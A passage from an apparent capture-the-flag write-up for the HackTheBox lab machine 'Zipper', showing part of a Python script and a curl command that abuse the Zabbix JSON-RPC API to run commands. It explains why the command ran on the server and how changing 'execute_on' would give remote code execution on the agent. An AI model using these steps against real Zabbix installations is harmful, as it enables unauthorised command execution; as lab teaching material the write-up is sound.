             cmd_exe = requests.post(url, data=json.dumps(payload), headers=(headers))
            cmd_exe = cmd_exe.json()
            print cmd_exe["result"]["value"]



### Why Zabbix and Not Zipper

So that leads to the question - why did this run on Zabbix? I gave it
the hostid for Zipper. It has to do with the `execute_on` parameter,
which this script makes no changes to.

As the script updates scriptid 1, I'll look at those details (using `jq`
to select just that script):



    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.get", "id":1, "auth":"e53de718bf70398f6e26c8cafbc246c6", "params":{}}' | jq '.result | .[] | select(.scriptid == "1")'
    {
      "scriptid": "1",
      "name": "Ping",
      "command": "hostname",
      "host_access": "2",
      "usrgrpid": "0",
      "groupid": "0",
      "description": "",
      "confirmation": "",
      "type": "0",
      "execute_on": "1"
    }



So on a clean reset, the `execute_on` parameter is 1. Looking in the
[documentation on the script
object](https://www.zabbix.com/documentation/3.0/manual/api/reference/script/object),
I'll see that means to run the command on the Zabbix server, not the
agent:

![](/img/1550696824535.png)

I can see this more easily in the GUI. I'll log in as admin, and visit
`http://10.10.10.108/zabbix/zabbix.php?action=script.edit&scriptid=1`:

![](/img/1550696919679.png)

So since the script doesn't change it, this script will run on the
server and not the agent.

### Update to Run on Zipper

So I have a couple options I can change to get RCE on Zipper. While I'm
logged in as Admin, I can just set scriptid 1 to run on agent in the
GUI. I could also just add `execute_on` to the update payload in the
script:
